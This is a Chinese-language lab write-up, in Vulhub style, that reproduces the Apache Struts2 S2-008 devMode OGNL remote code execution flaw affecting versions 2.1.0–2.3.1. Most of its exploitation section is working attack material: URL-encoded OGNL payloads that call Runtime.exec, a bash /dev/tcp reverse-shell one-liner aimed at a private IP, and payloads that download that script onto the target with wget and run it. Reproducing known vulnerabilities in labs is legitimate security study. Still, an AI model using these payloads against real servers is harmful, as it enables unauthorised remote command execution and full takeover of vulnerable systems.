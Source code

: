 # Apache Struts2 S2-008 远程代码执行漏洞

## 漏洞描述

S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

参考链接：

- http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html
- http://struts.apache.org/docs/s2-008.html

## 漏洞影响

影响版本: 2.1.0 - 2.3.1

## 环境搭建

Vulhub 执行以下命令启动 s2-008 测试环境：

```
docker-compose build
docker-compose up -d
```

## 漏洞复现

在 devMode 模式下直接添加参数 `?debug=command&expression=<OGNL EXP>`，会直接执行后面的 OGNL 表达式，因此可以直接执行命令（注意转义）。

```
http://your-ip:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)
```

### 反弹 shell

编写 shell 脚本并启动 http 服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传 shell.sh 文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传 shell.sh 文件的 Payload 为：

```
http://your-ip:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22wget%20192.168.174.128%2fshell.sh%22%29)
```

执行 shell.sh 文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行 shell.sh 文件的 Payload 为：

```
http://your-ip:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22bash%20%2fusr%2flocal%2ftomcat%2fshell.sh%22%29)
```

成功接收反弹 shell：

![image-20220301165140045](images/202203011651129.png)
